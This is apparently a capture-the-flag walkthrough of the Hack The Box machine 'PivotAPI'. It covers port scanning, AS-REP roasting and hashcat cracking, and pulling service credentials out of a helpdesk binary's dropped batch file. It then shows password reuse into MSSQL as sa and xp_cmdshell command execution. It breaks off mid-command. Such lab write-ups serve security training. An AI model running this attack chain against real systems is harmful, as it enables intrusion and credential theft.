









# PivotAPI
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.240 --min-rate 5000                                                                              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 03:10 BST
Nmap scan report for 10.10.10.240 (10.10.10.240)
Host is up (0.10s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49708/tcp open  unknown
52843/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 65.93 seconds

```
```
└─$ nmap -Pn -p21,22,53,88,135,139,389,445,464,593,636,1433,3268,3269,9389 -sC -sV 10.10.10.240 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 03:12 BST
Nmap scan report for 10.10.10.240 (10.10.10.240)
Host is up (0.10s latency).

PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-19-21  03:06PM               103106 10.1.1.414.6453.pdf
| 02-19-21  03:06PM               656029 28475-linux-stack-based-buffer-overflows.pdf
| 02-19-21  12:55PM              1802642 BHUSA09-McDonald-WindowsHeap-PAPER.pdf
| 02-19-21  03:06PM              1018160 ExploitingSoftware-Ch07.pdf
| 08-08-20  01:18PM               219091 notes1.pdf
| 08-08-20  01:34PM               279445 notes2.pdf
| 08-08-20  01:41PM                  105 README.txt
|_02-19-21  03:06PM              1301120 RHUL-MA-2009-06.pdf
22/tcp   open     ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   3072 fa:19:bb:8d:b6:b6:fb:97:7e:17:80:f5:df:fd:7f:d2 (RSA)
|   256 44:d0:8b:cc:0a:4e:cd:2b:de:e8:3a:6e:ae:65:dc:10 (ECDSA)
|_  256 93:bd:b6:e2:36:ce:72:45:6c:1d:46:60:dd:08:6a:44 (ED25519)
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-05 19:12:42Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  filtered ldap
445/tcp  open     microsoft-ds?
464/tcp  filtered kpasswd5
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
1433/tcp open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.240:1433: 
|     Target_Name: LICORDEBELLOTA
|     NetBIOS_Domain_Name: LICORDEBELLOTA
|     NetBIOS_Computer_Name: PIVOTAPI
|     DNS_Domain_Name: LicorDeBellota.htb
|     DNS_Computer_Name: PivotAPI.LicorDeBellota.htb
|     DNS_Tree_Name: LicorDeBellota.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.10.240:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-05T19:05:41
|_Not valid after:  2053-10-05T19:05:41
|_ssl-date: 2023-10-05T19:13:30+00:00; -7h00m01s from scanner time.
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: LicorDeBellota.htb0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
9389/tcp open     mc-nmf        .NET Message Framing
Service Info: Host: PIVOTAPI; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-10-05T19:12:54
|_  start_date: N/A
|_clock-skew: mean: -7h00m01s, deviation: 0s, median: -7h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.10 seconds

```

- `smb`
```
└─$ smbclient -N -L //10.10.10.240                                                              
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.240 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
- `dns`
```
└─$ dig axfr LicorDeBellota.htb @PivotAPI.LicorDeBellota.htb                                                   

; <<>> DiG 9.19.17-1-Debian <<>> axfr LicorDeBellota.htb @PivotAPI.LicorDeBellota.htb
;; global options: +cmd
; Transfer failed.

```

- `ldapsearch`
```
└─$ ldapsearch -H ldap://LicorDeBellota.htb -x -s base namingcontexts           
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=LicorDeBellota,DC=htb
namingcontexts: CN=Configuration,DC=LicorDeBellota,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=LicorDeBellota,DC=htb
namingcontexts: DC=DomainDnsZones,DC=LicorDeBellota,DC=htb
namingcontexts: DC=ForestDnsZones,DC=LicorDeBellota,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://LicorDeBellota.htb -x -b "DC=LicorDeBellota,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=LicorDeBellota,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1

```

- No results for `rpc`
- `ftp`
```
└─$ ftp anonymous@10.10.10.240
Connected to 10.10.10.240.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||57367|)
150 Opening ASCII mode data connection.
02-19-21  03:06PM               103106 10.1.1.414.6453.pdf
02-19-21  03:06PM               656029 28475-linux-stack-based-buffer-overflows.pdf
02-19-21  12:55PM              1802642 BHUSA09-McDonald-WindowsHeap-PAPER.pdf
02-19-21  03:06PM              1018160 ExploitingSoftware-Ch07.pdf
08-08-20  01:18PM               219091 notes1.pdf
08-08-20  01:34PM               279445 notes2.pdf
08-08-20  01:41PM                  105 README.txt
02-19-21  03:06PM              1301120 RHUL-MA-2009-06.pdf
226 Transfer complete.

```

- Running `exiftool` on `pdf` files shows `LicorDeBellota.htb\kaorz`
```
======== notes2.pdf
ExifTool Version Number         : 12.67
File Name                       : notes2.pdf
Directory                       : .
File Size                       : 279 kB
File Modification Date/Time     : 2020:08:08 12:34:25+01:00
File Access Date/Time           : 2023:10:06 19:12:03+01:00
File Inode Change Date/Time     : 2023:10:06 19:12:03+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 5
XMP Toolkit                     : Image::ExifTool 12.03
Creator                         : Kaorz
Publisher                       : LicorDeBellota.htb
Producer                        : cairo 1.10.2 (http://cairographics.org)
```
## Foothold
- Let's check if user is `AS-REP`-roastable
```
└─$ impacket-GetNPUsers -dc-ip PivotAPI.LicorDeBellota.htb LicorDeBellota.htb/kaorz -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for kaorz
$krb5asrep$23$kaorz@LICORDEBELLOTA.HTB:117660010b88116ef19ce2f9e608d1d9$a8f47a80fddd556b91bb360af849916358388168cf2ed0c2783c95ff09d799d504477fefe0d1a9ab33a92243939260e558b739cedd2a8c3d61bf85ae56360069cd38a4f14b04865afdbbbf99a3816da14b41058a0249c62c180d50337a6e3c27da5cdde876ca8b4f70f1d5624c1f3358e0a451bb5ec9cb3ee580148951680f5d06f2ce8c11bf61cb8600cbb290dd046a12ad9c8cae68e4ca9706c904189e4ef0a192f8cc192e6286241547ae151111d074323e54a174b945156365f6db2f80d9b7ec558ffa64b7fcd93206f055ecfbf973fa4fff67f20ea88d63fdc29d6aea709c7da2d8073ef9f7fcc3f36a39160138e0679042f7fd8441
```

- Let's crack it
  - `kaorz:Roper4155`
```
└─$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1435/2934 MB (512 MB allocatable), 2MCU
...
$krb5asrep$23$kaorz@LICORDEBELLOTA.HTB:117660010b88116ef19ce2f9e608d1d9$a8f47a80fddd556b91bb360af849916358388168cf2ed0c2783c95ff09d799d504477fefe0d1a9ab33a92243939260e558b739cedd2a8c3d61bf85ae56360069cd38a4f14b04865afdbbbf99a3816da14b41058a0249c62c180d50337a6e3c27da5cdde876ca8b4f70f1d5624c1f3358e0a451bb5ec9cb3ee580148951680f5d06f2ce8c11bf61cb8600cbb290dd046a12ad9c8cae68e4ca9706c904189e4ef0a192f8cc192e6286241547ae151111d074323e54a174b945156365f6db2f80d9b7ec558ffa64b7fcd93206f055ecfbf973fa4fff67f20ea88d63fdc29d6aea709c7da2d8073ef9f7fcc3f36a39160138e0679042f7fd8441:Roper4155
```
- The creds didn't work for `ssh`
```
└─$ sshpass -p 'Roper4155' ssh kaorz@10.10.10.240
Warning: Permanently added '10.10.10.240' (ED25519) to the list of known hosts.
Permission denied, please try again.
```

- No `SPN`s
```
└─$ impacket-GetUserSPNs LicorDeBellota.htb/Kaorz:'Roper4155' -dc-ip 10.10.10.240  
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
- No access to `mysql`
```
└─$ impacket-mssqlclient LicorDeBellota.htb/Kaorz:'Roper4155'@10.10.10.240 -windows-auth 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[-] ERROR(PIVOTAPI\SQLEXPRESS): Line 1: Error de inicio de sesión del usuario 'LICORDEBELLOTA\Kaorz'.
                                                                                                             
```
## User
- Let's check `bloodhound`
```
└─$ bloodhound-python -u kaorz -p 'Roper4155' -d licordebellota.htb -dc licordebellota.htb -ns 10.10.10.240 --zip
INFO: Found AD domain: licordebellota.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: licordebellota.htb
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Found 28 users
INFO: Connecting to LDAP server: licordebellota.htb
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 58 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: PivotAPI.LicorDeBellota.htb
INFO: Done in 00M 16S
INFO: Compressing output into 20231007112624_bloodhound.zip
```

- Nothing interesting
  - `Domain Users`



- I'll check `smb`
```
└─$ smbclient -L //10.10.10.240/ -U 'kaorz%Roper4155'                                        

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Admin remota
        C$              Disk      Recurso predeterminado
        IPC$            IPC       IPC remota
        NETLOGON        Disk      Recurso compartido del servidor de inicio de sesión 
        SYSVOL          Disk      Recurso compartido del servidor de inicio de sesión 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.240 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

- We have files in `Netlogon\HelpDesk`
```
└─$ smbclient //10.10.10.240/NETLOGON -U 'kaorz%Roper4155'           
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug  8 11:42:28 2020
  ..                                  D        0  Sat Aug  8 11:42:28 2020
  HelpDesk                            D        0  Sun Aug  9 16:40:36 2020

                5158399 blocks of size 4096. 1053109 blocks available
smb: \> cd HelpDesk\
smb: \HelpDesk\> ls
  .                                   D        0  Sun Aug  9 16:40:36 2020
  ..                                  D        0  Sun Aug  9 16:40:36 2020
  Restart-OracleService.exe           A  1854976  Fri Feb 19 10:52:01 2021
  Server MSSQL.msg                    A    24576  Sun Aug  9 12:04:14 2020
  WinRM Service.msg                   A    26112  Sun Aug  9 12:42:20 2020

                5158399 blocks of size 4096. 1053109 blocks available

```
- Download the files
  - We see `msg` files, which are `Outlook` message files
  - We need to install `msgconvert` via `sudo apt-get install libemail-outlook-message-perl`
    - https://www.matijs.net/software/msgconv

```
└─$ file *.msg            
Server MSSQL.msg:  CDFV2 Microsoft Outlook Message
WinRM Service.msg: CDFV2 Microsoft Outlook Message
```

- Run `msgconvert`
  - Now we have `eml` files, which we can read
```
└─$ msgconvert *.msg
```
```
Date: Sun, 09 Aug 2020 11:04:14 +0000
MIME-Version: 1.0
Content-Type: multipart/alternative; boundary=16967873760.dB4b.277836
Content-Transfer-Encoding: 7bit
Subject: Server MSSQL
To: cybervaca@licordebellota.htb <cybervaca@licordebellota.htb>
...
Good afternoon,
 
Due to the problems caused by the Oracle database installed in 2010 in Windows, it has been decided to migrate to MSSQL at the beginning of 2020.
Remember that there were problems at the time of restarting the Oracle service and for this reason a program called "Reset-Service.exe" was created to log in to Oracle and restart the service.
 
Any doubt do not hesitate to contact us.
 
Greetings,
 
The HelpDesk Team

```
```
Date: Sun, 09 Aug 2020 11:42:20 +0000
MIME-Version: 1.0
Content-Type: multipart/alternative; boundary=16967873761.1De4bB9e.277836
Content-Transfer-Encoding: 7bit
Subject: WinRM Service
To: helpdesk@licordebellota.htb <helpdesk@licordebellota.htb>
...
Good afternoon.
 
After the last pentest, we have decided to stop externally displaying WinRM's service. Several of our employees are the creators of Evil-WinRM so we do not want to expose this service... We have created a rule to block the exposure of the service and we have also blocked the TCP, UDP and even ICMP output (So that no shells of the type icmp are used.)
Greetings,
 
The HelpDesk Team
```

- We have a `Restart-OracleService.exe` binary mentioned in the mail
  - We probably have to reverse it
```
└─$ file Restart-OracleService.exe 
Restart-OracleService.exe: PE32+ executable (console) x86-64, for MS Windows, 6 sections
```

- I'll open it in `IDA`
  - In strings view, I see a `inflate 1.2.11 Copyright 1995-2017 Mark Adler`
  - It looks like a [Zlib library](https://github.com/madler/zlib/blob/cacf7f1d4e3d44d871b605da3b647f07d718623f/inftrees.c#L12)



- Nothing interesting, we try executing it and monitor the process via `Procmon`
  - Add `Restart-OracleService.exe` to filter
    - `Process Name -> is -> Restart-OracleService.exe`



- When we start the process, we receive bunch of events in `Procmon`
  - We can see that there is a process creation, where `cmd` tries to execute `bat` file


- If we check other events, we see that it creates `bat` file in `AppData\Local\Temp` directory of the user



- In order to capture the `bat` file, we can remove modify permissions from `AppData\Local\Temp`
  - Remove `delete` permissions for a user that runs the binary


- Then run the executable again
  - We see 2 files


- The content of the `bat` file
```
@shift /0
@echo off

if %username% == cybervaca goto correcto
if %username% == frankytech goto correcto
if %username% == ev4si0n goto correcto
goto error

:correcto
...
echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
...
echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
powershell.exe -exec bypass -file c:\programdata\monta.ps1
del c:\programdata\monta.ps1
del c:\programdata\oracle.txt
c:\programdata\restart-service.exe
del c:\programdata\restart-service.exe

:error
```

- Remove the user check at the start and the deletion at the end
  - Save the file and run


- Now we have `restart-service.exe`
```
└─$ file restart-service.exe 
/mnt/shared/restart-service.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 10 sections
```

- There few ways to analyse the executable
  - We can use [APIMonitor](http://www.rohitab.com/apimonitor)
  - Or use `x64debug` to dump the memory with a password
  - Since I never use `APIMonitor`, I'll try this approach
    - We set a filter for `API` calls
    - Set it to `GetProcAddress`



- Then if start monitoring the process
  - If you notice we have a `CreateProcessWithLogonW` call
    - `Creates a new process and its primary thread. Then the new process runs the specified executable file in the security context of the specified credentials (user, domain, and password). It can optionally load the user profile for a specified user.`


- So we set our new filter to `CreateProcessWithLogonW` and run executable again
  - We can see the creds
  - `svc_oracle:#oracle_s3rV1c3!2010`


- But the creds don't work for `smb`
```
└─$ crackmapexec smb 10.10.10.240 -u svc_oracle -p '#oracle_s3rV1c3!2010'
SMB         10.10.10.240    445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.240    445    PIVOTAPI         [-] LicorDeBellota.htb\svc_oracle:#oracle_s3rV1c3!2010 STATUS_LOGON_FAILURE 

```

- But if we check `bloodhound` again, there are no `svc_oracle` user
  - Only `svc_mssql` 
  - If we change username to `svc_mssql` it also fails
  - But if we remember the message, that they were migrating from oracle to mssql, we could try modifying the password
    - Change the year to 2020 and oracle to mssql, based on email
  - And it works 
```
└─$ crackmapexec smb 10.10.10.240 -u svc_mssql -p '#mssql_s3rV1c3!2020'
SMB         10.10.10.240    445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.240    445    PIVOTAPI         [+] LicorDeBellota.htb\svc_mssql:#mssql_s3rV1c3!2020
```

- But we don't have access to `mssql`
```
└─$ crackmapexec mssql 10.10.10.240 -u svc_mssql -p '#mssql_s3rV1c3!2020'
MSSQL       10.10.10.240    1433   PIVOTAPI         [*] Windows 10.0 Build 17763 (name:PIVOTAPI) (domain:LicorDeBellota.htb)
MSSQL       10.10.10.240    1433   PIVOTAPI         [-] ERROR(PIVOTAPI\SQLEXPRESS): Line 1: Error de inicio de sesión del usuario 'LICORDEBELLOTA\svc_mssql'.

```

- If we change the username to `sa` to test for password-reuse, we have a hit
```
└─$ crackmapexec mssql 10.10.10.240 -u sa -p '#mssql_s3rV1c3!2020' --local-auth
MSSQL       10.10.10.240    1433   PIVOTAPI         [*] Windows 10.0 Build 17763 (name:PIVOTAPI) (domain:PIVOTAPI)
MSSQL       10.10.10.240    1433   PIVOTAPI         [+] sa:#mssql_s3rV1c3!2020 (Pwn3d!)

```

- Nothing interesting in the database
  - But `svc_mssql` is `winrm` user, so probably `winrm` port is firewalled


- We can use [mssql_shell](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py)
  - or `impacket-mssqlclient` with `xp_cmdshell` to get a reverse shell
  - Download `nc` and execute to it to get reverse shell
  - But this is uninteded way
```
└─$ impacket-mssqlclient sa:'#mssql_s3rV1c3!2020'@10.10.10.240                                      
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> xp_cmdshell
output   
------   
NULL     

SQL (sa  dbo@master)> xp_cmdshell whoami
output                        
---------------------------   
nt service\mssql$sqlexpress   

NULL                   
```

- Intended way is to use [mssqlproxy](https://github.com/blackarrowsec/mssqlproxy)
  - [python3 version](https://github.com/0xdf-0xdf/mssqlproxy/)
  - Download 2 `dlls` from releases 
    - Rename `assembly.dll` to `Microsoft.SqlServer.Proxy.dll`
```
└─$ git clone https://github.com/0xdf-0xdf/mssqlproxy -b python3
Cloning into 'mssqlproxy'...
remote: Enumerating objects: 36, done.
remote: Counting objects: 100% (36/36), done.
remote: Compressing objects: 100% (31/31), done.
remote: Total 36 (delta 13), reused 23 (delta 4), pack-reused 0
Receiving objects: 100% (36/36), 172.33 KiB | 625.00 KiB/s, done.
Resolving deltas: 100% (13/13), done.
```
```
└─$ mv assembly.dll Microsoft.SqlServer.Proxy.dll
```
- Now we connect to box and upload second dll `reciclador.dll` there
  - change `import thread` to `import _thread`
```
└─$ python3 mssqlclient.py sa:#mssql_s3rV1c3!2020@10.10.10.240'
